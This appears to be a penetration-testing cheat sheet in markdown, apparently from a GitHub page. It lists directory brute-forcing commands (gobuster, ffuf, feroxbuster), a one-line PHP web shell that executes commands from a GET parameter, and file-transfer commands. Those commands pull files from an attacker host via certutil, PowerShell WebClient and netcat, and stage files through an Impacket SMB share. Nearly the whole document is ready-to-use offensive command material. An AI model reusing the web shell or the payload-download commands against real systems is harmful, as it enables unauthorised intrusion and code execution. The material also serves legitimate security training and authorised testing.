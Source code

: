 
# Web exploitation

`dirsearch -u http://`

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://<RHOST>/
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://<RHOST>/ -x php
gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://<RHOST>/ -x php,txt,html,js -e -s 200
```

```
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://<RHOST>/FUZZ --fs <NUMBER> -mc all
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://<RHOST>/FUZZ --fw <NUMBER> -mc all
ffuf -u http://localhost/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-words-lowercase.txt -e .php,.html,.txt
```

`feroxbuster -u http://IP -w $DIRMEDIUM -x php,txt,html`

PHP shell:
`<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>`

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master

# File transfer

`certutil -urlcache -split -f "http://<LHOST>/<FILE>" <FILE>`

`Invoke-WebRequest -Uri http://<LHOST>:<LPORT>/<FILE> -Outfile C:\\temp\\<FILE>`

`(new-object System.Net.WebClient).DownloadFile('http://192.168.119.138:800/file.exe','file.exe')`

```
nc -lnvp <LPORT> < <FILE>
nc <RHOST> <RPORT> > <FILE>
```

Impacket smbserver.py:
```
smbserver.py share -smb2support . -username "peon" -password "peon"
smbserver.py share -smb2support .
```
On the Windows host:
```
# Set the credential
$pass = ConvertTo-SecureString 'peon' -AsPlainText -Force
$pass
$cred = New-Object System.Management.Automation.PSCredential('peon', $pass)
$cred

# Connect to the SMB server
New-PSDrive -Name peon -PSProvider FileSystem -Credential $cred -Root \\IP\smbfolder

# Access the share
cd peon
dir
```
